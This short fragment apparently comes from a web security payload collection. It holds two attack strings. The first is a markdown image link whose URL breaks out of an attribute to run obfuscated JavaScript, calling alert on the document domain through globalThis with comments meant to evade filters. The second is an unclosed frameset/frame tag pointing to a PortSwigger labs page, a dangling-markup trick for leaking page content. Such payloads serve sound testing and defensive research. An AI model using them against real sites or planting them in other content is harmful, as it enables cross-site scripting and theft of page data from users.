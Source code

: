 ![](../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js?w=10';globalThis[/*foo*/'alert'/*bar*/](globalThis[/*foo*/'document'/*bar*/]['domain']);//)

<frameset><frame src=http://subdomain1.portswigger-labs.net/dangling_markup/name.html name="
